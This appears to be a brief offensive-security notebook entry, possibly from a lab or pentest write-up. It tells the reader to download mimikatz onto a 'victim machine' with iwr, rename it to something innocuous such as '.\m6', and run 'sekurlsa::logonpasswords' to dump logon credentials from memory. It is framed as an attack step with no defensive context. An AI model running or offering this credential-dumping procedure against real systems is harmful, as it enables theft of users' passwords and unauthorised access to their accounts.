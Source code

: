 Use this command when you manage to iwr mimikatz.exe to victim machine

.\m6 or .\anything that you name and `sekurlsa::logonpasswords`

![image.png](image%2041.png)
